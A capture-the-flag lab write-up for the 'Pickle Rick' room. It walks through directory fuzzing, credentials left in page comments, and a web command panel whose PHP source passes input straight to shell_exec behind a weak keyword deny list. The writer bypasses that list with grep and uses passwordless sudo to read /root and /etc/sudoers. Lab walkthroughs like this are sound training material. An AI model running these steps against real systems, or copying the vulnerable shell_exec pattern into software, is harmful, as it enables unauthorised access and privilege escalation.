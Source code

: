 # Pickle Rick

### [Reconnaisance]

- Firstly, i use ffuf to fuzz the ip that was given when we start machine

```
**┌──(kali㉿kali)-[~/wordlists]
└─$ ffuf -u http://10.10.231.188/FUZZ -w common.txt            
...........
.hta                    [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 237ms]
.htpasswd               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 237ms]
.htaccess               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 256ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 240ms]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38, Duration: 241ms]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 227ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 231ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 244ms]
:: Progress: [4687/4687] :: Job [1/1] :: 171 req/sec :: Duration: [0:00:28] :: Errors: 0 ::**
                                                                                                    
```

 ⇒ We can see that there are 2 interesting paths which are login.php and robots.txt

### [Exploit]

- On the default page, we can see the username

```
<!--
Note to self, remember username!
Username: R1ckRul3s
-->
```

- Access robots.txt, we can see the weird string: *Wubbalubbadubdub*
- Now move login.php, i think that the weird string is password and it is true
- After logining successfully, we can see the command panel.

+) Use ‘ls’ to see more clearly

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

+) There are some file text which can be the ingredients. However, when i try to cat the file, it doesn’t work.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/0051f2f0-1646-4504-bd84-e934e510268c/6d02494c-9b83-466e-8a65-431f3def1f28/Untitled.png)

 +)  pwd show that we are in **/var/www/html** and whoami shows that we are user **www-data**

[?] How can we see the data in the file ?

- Remmember that we are in /var/www/html and robots.txt is displayed for us when we access the file on url, so we can do the same way with other 2 files.txt
- http://10.10.231.188/Sup3rS3cretPickl3Ingred.txt shows  **mr. meeseek hair** which is the first ingredient

=> Question 1:  **mr. meeseek hair**

- http://10.10.231.188/clue.txt hints that **Look around the file system for the other ingredient.**

[Hint] The command `grep` can be used in this case to work the same as `cat` command to get the content of the file

- We get the content of file portal.php to know how the backend works

`grep . portal.php`

```

........
    <?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Can't use any command in the array
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
    ?>
    //[?] base64 encoded. However, i decode so many time and get the str 'rabbit hole'
    <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

- Next, we try to list the file in /home to check if there is any user

ls /home

```
rick => this user sound sus right 
ubuntu
```

ls /home/rick

```
second ingredients => the second flag
```

grep . /home/rick/"second ingredients”

```
1 jerry tear
```

[?] Why do we need “” here ? Because it works like this

```
┌──(kali㉿kali)-[~/wordlists]
└─$ touch test file
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ ls
common.txt  file  parameters.txt  subdomains.txt  test
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ touch "test file"
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ ls
 common.txt   file   parameters.txt   subdomains.txt   test  'test file'
                                                                                                                                                                                                                                                                                                       
┌──(kali㉿kali)-[~/wordlists]
└─$ nano 'test file'
                                                                                                                                                               
┌──(kali㉿kali)-[~/wordlists]
└─$ cat 'test file'
asdasd
```

⇒ Questtion 2: **1 jerry tear**

- Next, i try list the file and dir in “/”

ls / 

```
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```

- /root looks suspicous right ? However, when i try to cd and list all dir in the file, it doesn’t show anything.

[Explaination]

In Linux systems, the **`/root`** directory is the home directory of the root user, the system administrator. By default, only the root user or users with sudo privileges can access this directory.

sudo ls /root

```
3rd.txt
snap
```

sudo grep . /root/3rd.txt

```
3rd ingredients: fleeb juice
=> Question 3: fleeb juice
```

[?] When we sudo to get the full privileges, we need the password of superuser because we are user www-data right !

```
sudo grep . /etc/sudoers
......
root	ALL=(ALL:ALL) ALL
//[!] www-data can execute all command without pw
www-data                ALL=(ALL) NOPASSWD: ALL 
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL
# See sudoers(5) for more information on "#include" directives:
#includedir /etc/sudoers.d
```
